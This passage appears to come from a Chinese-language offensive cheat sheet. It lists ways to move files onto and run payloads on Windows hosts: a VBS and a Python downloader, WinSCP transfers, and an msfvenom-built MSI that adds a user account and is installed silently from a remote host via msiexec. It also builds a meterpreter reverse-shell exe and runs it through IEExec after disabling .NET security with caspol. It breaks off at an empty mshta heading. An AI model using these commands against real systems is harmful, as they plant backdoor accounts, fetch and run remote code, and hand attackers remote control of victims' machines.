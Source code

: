 		- tftp -i IP get filename 存放位置

- VBS脚本

	- echo Set xPost=createObject("Microsoft.XMLHTTP")>>b.vbs
echo xPost.Open "GET","http://192.168.70.128/www.rar",0 >>b.vbs
echo xPost.Send()>>b.vbs
echo set sGet=createObject("ADODB.Stream")>>b.vbs
echo sGet.Mode=3>>b.vbs
echo sGet.Type=1>>b.vbs
echo sGet.Open()>>b.vbs
echo sGet.Open()>>b.vbs
echo sGet.SaveToFile "C:\Users\sq\Desktop\a\www.rar",2 >>b.vbs
cscript b.vbs

- Python脚本

	- #!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://192.168.70.128/www.rar')
localFile = open('1.rar', 'w')
localFile.write(u.read())
localFile.close()

- WinScp

	- 上传

		- winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://username:pass@192.168.28.131:22" "option transfer binary" "put D:\1.txt  /tmp/" "exit" /log=log_file.txt 

	- 下载

		- winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://username:pass@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.txt

- msiexec

	- 生成msi包

		- msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi

	- 远程执行

		- msiexec /q /i http://192.168.28.128/evil.msi

- IEexec.exe

	- 生成Payload

		- msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe

	- 远程执行

		- C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe

- mshta

	- 远程执行
